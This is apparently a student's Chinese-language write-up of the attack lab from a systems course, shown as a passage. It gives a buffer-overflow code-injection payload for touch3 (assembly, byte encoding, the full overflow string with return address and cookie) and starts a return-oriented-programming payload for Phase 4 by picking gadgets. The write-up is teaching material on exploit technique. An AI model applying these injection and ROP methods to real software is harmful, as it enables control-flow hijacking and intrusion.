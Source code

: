 感觉贴近跳转touch3地址的地方可以：$0x55627618 

开始编写汇编代码：

```c
mov $0x55627618 %rdi
pushq $0x401976
ret
```

汇编和反汇编得：48 c7 c7 18 76 62 55 68 76 19 40 00 c3

```c
touch3.o:     file format elf64-x86-64
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 18 76 62 55 	mov    $0x55627618,%rdi
   7:	68 76 19 40 00       	pushq  $0x401976
   c:	c3                   	retq   
```

最后的字符串：

```c
/*
48 c7 c7 18 76 62 55 68//将寄存器的值设为字符串的地址
76 19 40 00 c3 00 00 00//将touch3的地址压入栈，并ret到touch3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
//以上40字节填满缓冲区使之溢出
e8 75 62 55 00 00 00 00
//以上为缓冲区的起始地址，使得跳转到我们注入的代码
33 62 39 62 64 34 33 63
//我的cookie
*/
```

- 我只能说：ko ko SU KI：

![image-20211205210404581](https://raw.githubusercontent.com/CorneliaStreet1/PictureBed/master/202112060842213.png)

# Phase 4

和Level 2思路一致，我们需要将将寄存器`%rdi`的值设置为`cookie`。
在上面找到的满足条件的`gadget`中可以凑出能够实现攻击的指令。
先将寄存器`%rax`的值设置为`cookie`，然后复制给`%rdi`。

`rtarget`中的touch2

![image-20211206163616361](https://raw.githubusercontent.com/CorneliaStreet1/PictureBed/master/202112061745422.png)

```c
/*
popq %rax//对应的字节编码，查表可知 58
ret //c3
mov  %rax,%rdi //查表得对应字节编码 48 89 c7
ret   //c3
*/
//所以需要找到：58 c3 起始地址位于0x401a25
//以及 48 89 c7 c3 位于0x401a37
/*所以最后的字符串为*/
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
```
